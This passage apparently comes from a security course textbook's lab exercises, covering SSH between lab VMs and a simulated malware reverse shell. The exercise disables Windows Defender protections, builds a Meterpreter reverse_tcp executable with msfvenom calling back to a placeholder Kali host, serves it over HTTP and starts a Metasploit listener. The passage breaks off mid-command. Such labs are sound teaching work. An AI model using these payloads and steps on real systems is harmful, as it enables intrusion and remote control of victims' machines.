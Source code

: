>systemctl status ssh
>```
>Use socket statistics to confirm that port 22 is listening.  Check the Ubuntu VM IP address that will be used to make an SSH connection from the Kali VM.
>```bash
>ip a
>```
>#### Step 2 - Establish SSH Connection
>Launch your Kali VM with Bridge Adapter network settings and start a terminal.  Establish an SSH connection with the Ubuntu VM using the SSH client pre-installed on Kali. Make sure to replace the USER value in the command below with your Ubuntu VM username and the IP with the IP address of your Ubuntu VM.  Because we are using `sudo` with a low privilege user, enter your Kali VM user password.  Type "yes" when prompted to add the Ubuntu VM IP to the known hosts.  Lastly, enter your Ubuntu VM user password when prompted.
>```bash
>sudo ssh USER@IP
>```
>After entering the Ubuntu VM password, you will be logged in and presented with the Welcome terminal message and a shell.  Run `whoami` and `uname` to evidence you can run commands as the Ubuntu user on the Ubuntu VM from the Kali VM.
>```bash
>whoami
>uname -a
>```

> [!exercise] Exercise 10.2 - Reverse Shell
> In this task, you will simulate a user's downloading and running of malware on the Windows VM which makes a reverse shell connection to Metasploit running on the Kali VM.
> #### Step 1 - Prepare Windows
> Launch the Windows VM in Bridge Adapter network mode and start the "Virus & threat protection" program.  With Windows Security running, select "Manage settings" under the "Virus & threat protection settings".  Turn Off the "Real-time protection", "Cloud-delivered protection", "Automatic sample submission", and "Tamper Protection" settings accepting any UAC prompts.
> #### Step 2 - Prepare Payload
> Launch your Kali VM with Bridge Adapter network setting and launch a terminal.  Check the IP address of the Kali VM.
> ```bash
> ip a
> ```
> Create an msfvenom executable file using the Kali VM's IP address as the LHOST and port 9001 as the LPORT. Use the Windows x64 staged TCP payload and output the file named `runme.exe`. Make sure to replace the KALI_IP with the IP address of your Kali VM in the command sample below.
> ```bash
> msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=KALI_IP LPORT=9001 -f exe -o runme.exe
> ```
> #### Step 3 - Start a Web Server
> On the Kali VM, where the `runme.exe` file was created, start a Python webserver. Observe that the webserver is standing by waiting for connections.
> ```bash
> sudo python3 -m http.server 80
> ```
> #### Step 4 - Start Meterpreter Listener
> In a new terminal on the Kali VM, start Metasploit.
> ```bash
> sudo msfdb run
> ```
> Navigate to the exploit multi-handler module.
> ```
> use exploit/multi/handler
> ```
> Configure the handler with the Kali VM IP address as the LHOST and port 9001 as the LPORT. Make sure to use your Kali VM IP address in place of KALI_IP.
> ```
> set LHOST KALI_IP

[^1]: Missouri gov. calls journalist who found security flaw a “hacker,” threatens to sue - Ars Technica; Oct 14th, 2021; https://arstechnica.com/tech-policy/2021/10/missouri-gov-calls-journalist-who-found-security-flaw-a-hacker-threatens-to-sue/